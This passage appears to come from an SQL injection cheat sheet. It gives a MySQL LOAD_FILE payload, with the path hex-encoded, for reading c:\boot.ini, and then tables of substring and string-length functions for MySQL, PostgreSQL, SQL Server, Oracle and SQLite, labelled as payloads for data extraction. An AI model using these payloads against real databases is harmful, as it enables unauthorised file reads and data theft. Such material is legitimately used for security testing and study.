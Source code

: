 ----
Loading Files
```SQL
-- MySQL
SELECT LOAD_FILE(0x633A5C626F6F742E696E69)
```
```cmd
<!-- Load the contents of c:\boot.ini file -->
```

### SUBSTRING Creation
| Applicability | Payload |
| - | - |
| MySQL | `SUBSTRING('main_string', START_POSITION, SUB_STRING_LENGTH)` |
| | `SUBSTRING('main_string' FROM START_POSITION FOR SUB_STRING_LENGTH)` |
| | `SUBSTR('main_string', START_POSITION, SUB_STRING_LENGTH)` |
| | `SUBSTR('main_string' FROM START_POSITION FOR SUB_STRING_LENGTH)` |
| | `MID('main_string', START_POSITION, SUB_STRING_LENGTH)` |
| | `MID('main_string' FROM START_POSITION FOR SUB_STRING_LENGTH)` |
| PostgreSQL | `SUBSTRING('main_string', START_POSITION, SUB_STRING_LENGTH)` |
| | `SUBSTRING('main_string' FROM START_POSITION FOR SUB_STRING_LENGTH)` |
| | `SUBSTR('main_string', START_POSITION, SUB_STRING_LENGTH)` |
| SQL Server | `SUBSTRING('main_string', START_POSITION, SUB_STRING_LENGTH)` |
| Oracle | `SUBSTR('main_string', START_POSITION, SUB_STRING_LENGTH)` |
| SQLite | `SUBSTRING('main_string', START_POSITION, SUB_STRING_LENGTH)` |
| | `SUBSTR('main_string', START_POSITION, SUB_STRING_LENGTH)` |

### String Length Calculation
| Applicability | Payload | Notes |
| - | - | - |
| MySQL | `LENGTH('str')` | Counts number of bytes |
| | `CHAR_LENGTH('str')` | Counts number of characters |
| SQL Server | `DATALENGTH('string')` | Counts number of bytes |
| | `LEN('str)` | Counts number of characters |
| PostgreSQL | `LENGTH('str')` | Counts number of characters |
| Oracle | `LENGTHB('str')` | Counts number of bytes |
| | `LENGTH('str')` | Counts number of characters |
| SQLite | `LENGTH('str')` | Counts number of characters |
